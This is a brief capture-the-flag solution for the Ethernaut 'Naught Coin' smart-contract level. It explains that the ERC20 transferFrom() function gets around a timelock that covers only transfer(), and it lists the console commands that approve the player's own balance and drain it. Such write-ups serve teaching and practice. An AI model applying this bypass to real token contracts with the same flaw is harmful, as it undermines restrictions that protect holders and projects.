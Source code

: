 # Naught Coin

## Description

Because NaughtCoin inherits from ERC20, it has more functions then the ones
visible in the smart contract. By decompiling it in etherscan or by going to
OpenZeppelin's docs, we discover the function `transferFrom()` which allows us
to send the value away from our account without using the `transfer()` function.

## Command Sequence

```
> await contract.allowance(player, player)
0
> const balance = contract.balanceOf(player)
> await contract.increaseAllowance(player, balance)
> await contract.allowance(player, player)
balance
> await contract.transferFrom(player, instance, balance)
> await contract.balanceOf(player)
0
```
